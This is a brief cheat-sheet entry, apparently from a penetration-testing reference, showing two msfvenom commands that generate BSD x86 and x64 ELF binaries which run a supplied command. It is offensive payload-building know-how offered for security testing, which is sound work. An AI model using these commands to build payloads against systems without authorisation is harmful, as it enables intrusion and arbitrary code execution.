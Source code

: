 # Executable Binary Payloads

## Execute BSD Exec Payload

```
$ msfvenom -p bsd/x86/exec cmd="<commands>" -f elf -o exec-cmd-x86

$ msfvenom -p bsd/x64/exec cmd="<commands>" -f elf -o exec-cmd-x64
```